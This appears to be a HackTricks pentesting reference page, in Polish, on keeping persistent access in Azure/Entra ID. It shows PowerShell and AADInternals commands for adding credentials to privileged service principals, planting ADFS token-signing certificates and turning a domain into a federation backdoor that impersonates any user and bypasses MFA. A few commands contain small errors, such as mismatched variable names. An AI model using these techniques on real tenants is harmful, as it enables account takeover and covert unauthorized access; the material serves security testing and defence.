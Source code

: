 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### OAuth Application

Domyślnie każdy użytkownik może zarejestrować aplikację w Entra ID. Możesz więc zarejestrować aplikację (tylko dla docelowego dzierżawcy), która potrzebuje uprawnień o wysokim wpływie z zgodą administratora (zatwierdź to, jeśli jesteś administratorem) - na przykład wysyłanie maili w imieniu użytkownika, zarządzanie rolami itp. To pozwoli nam na **wykonywanie ataków phishingowych**, które byłyby bardzo **owocne** w przypadku sukcesu.

Ponadto możesz również zaakceptować tę aplikację jako użytkownik, aby utrzymać nad nią dostęp.

### Applications and Service Principals

Z uprawnieniami Administratora Aplikacji, GA lub niestandardowej roli z uprawnieniami microsoft.directory/applications/credentials/update, możemy dodać poświadczenia (sekret lub certyfikat) do istniejącej aplikacji.

Możliwe jest **celowanie w aplikację z wysokimi uprawnieniami** lub **dodanie nowej aplikacji** z wysokimi uprawnieniami.

Interesującą rolą do dodania do aplikacji byłaby **rola administratora uwierzytelniania uprzywilejowanego**, ponieważ pozwala na **resetowanie haseł** Globalnych Administratorów.

Ta technika pozwala również na **obejście MFA**.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Dla uwierzytelniania opartego na certyfikatach
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Certyfikat podpisywania tokenów

Z **uprawnieniami DA** w lokalnym AD, możliwe jest utworzenie i importowanie **nowych certyfikatów podpisywania tokenów** i **certyfikatów deszyfrujących tokeny**, które mają bardzo długi okres ważności. Pozwoli nam to na **logowanie się jako dowolny użytkownik**, którego ImuutableID znamy.

**Uruchom** poniższe polecenie jako **DA na serwerze ADFS** w celu utworzenia nowych certyfikatów (domyślne hasło 'AADInternals'), dodania ich do ADFS, wyłączenia automatycznego obracania i ponownego uruchomienia usługi:
```bash
New-AADIntADFSSelfSignedCertificates
```
Następnie zaktualizuj informacje o certyfikacie w Azure AD:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Zaufana domena

Z uprawnieniami GA w dzierżawie możliwe jest **dodanie nowej domeny** (musi być zweryfikowana), skonfigurowanie jej typu uwierzytelniania na Federated oraz skonfigurowanie domeny do **ufania określonemu certyfikatowi** (any.sts w poniższym poleceniu) i wystawcy:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Odniesienia

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
